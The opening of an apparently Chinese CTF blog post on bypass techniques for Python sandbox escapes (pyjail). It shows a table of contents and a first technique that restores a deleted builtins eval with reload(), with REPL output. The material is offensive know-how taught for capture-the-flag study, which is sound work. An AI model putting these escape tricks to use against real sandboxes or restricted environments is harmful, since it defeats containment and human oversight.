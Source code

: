 ```yaml
---
title: CTF Pyjail 沙箱逃逸绕过合集
date: 2023-05-30 10:23:57
categories:
- Python
tags:
- pyjail
toc: true
---
```


> 文章首发于先知社区：[CTF Pyjail 沙箱逃逸绕过合集 - 先知社区](https://xz.aliyun.com/t/12647)

承接上一篇CTF Pyjail 沙箱逃逸原理合集，本文主要来谈谈绕过手法，Pyjail 绕过过滤的手法千奇百怪, 本文在复现经典历史赛题的基础上，针对不同的沙箱类型对绕过手法进行了分类，篇幅较长敬请理解。
1. 绕过删除模块或方法
2. 绕过基于字符串匹配的过滤
3. 绕过长度限制
4. 绕过命名空间限制
5. 绕过多行限制
6. 变量覆盖与函数篡改
7. 绕过 audit hook
8. 绕过 AST 沙箱


## 绕过删除模块或方法

在一些沙箱中，可能会对某些模块或者模块的某些方法使用 `del` 关键字进行删除。
例如删除 builtins 模块的 eval 方法。
```py
>>> __builtins__.__dict__['eval']
<built-in function eval>
>>> del __builtins__.__dict__['eval']
>>> __builtins__.__dict__['eval']
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
KeyError: 'eval'
```

### reload 重新加载
reload 函数可以重新加载模块，这样被删除的函数能被重新加载
```py
>>> __builtins__.__dict__['eval']
<built-in function eval>
>>> del __builtins__.__dict__['eval']
>>> __builtins__.__dict__['eval']
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
KeyError: 'eval'
>>> reload(__builtins__)
<module '__builtin__' (built-in)>
>>> __builtins__.__dict__['eval']
<built-in function eval>
```
在 Python 3 中，reload() 函数被移动到 importlib 模块中，所以如果要使用 reload() 函数，需要先导入 importlib 模块。
